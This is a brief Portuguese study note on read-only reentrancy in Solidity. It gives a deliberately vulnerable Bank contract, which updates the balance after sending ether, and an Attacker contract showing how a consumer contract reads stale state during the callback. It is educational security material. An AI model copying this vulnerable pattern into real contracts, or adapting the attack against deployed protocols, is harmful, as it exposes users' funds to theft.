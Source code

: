 +++
title = "Reentrada de Somente-Leitura (Solidity)"
author = ["Gabriel Rosa"]
date = 2023-09-12
tags = ["reentrancy"]
draft = false
+++

tags
: [Reentrada (SWC-107)]({{< relref "reentrada_swc_107.md" >}})

source
: [Read-Only Reentrancy (SCSFG)](https://scsfg.io/hackers/reentrancy/#read-only-reentrancy)

É um tipo específico de reentrada entre contratos que acontece quando o comportamento de um contrato inteligente depende do estado de outro contrato e essa informação fica desatualizada para o contrato que a utiliza.


## Vulnerabilidade {#vulnerabilidade}

```solidity
contract Bank is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public nonReentrant {
        uint256 amount = balances[msg.sender];
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }
}

contract BankConsumer {
    Bank private bank;

    constructor(address _bank) {
        bank = Bank(_bank);
    }

    function getBalance(address account) public view returns (uint256) {
        return bank.balances(account);
    }
}
```


## Exploitando {#exploitando}

```solidity
contract Attacker {
    event Checkpoint(uint256 balance);

    Bank public bank;
    BankConsumer public consumer;

    constructor(address _bankAddress, address _consumerAddress) {
        bank = Bank(_bankAddress);
        consumer = BankConsumer(_consumerAddress);
    }

    function attack() public {
        emit Checkpoint(consumer.getBalance(address(this))); // 1 - 0 ether
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        emit Checkpoint(consumer.getBalance(address(this))); // 3 - 0 ether
    }

    receive() external payable {
        emit Checkpoint(consumer.getBalance(address(this))); // 2 - 1 ether
    }
}
```
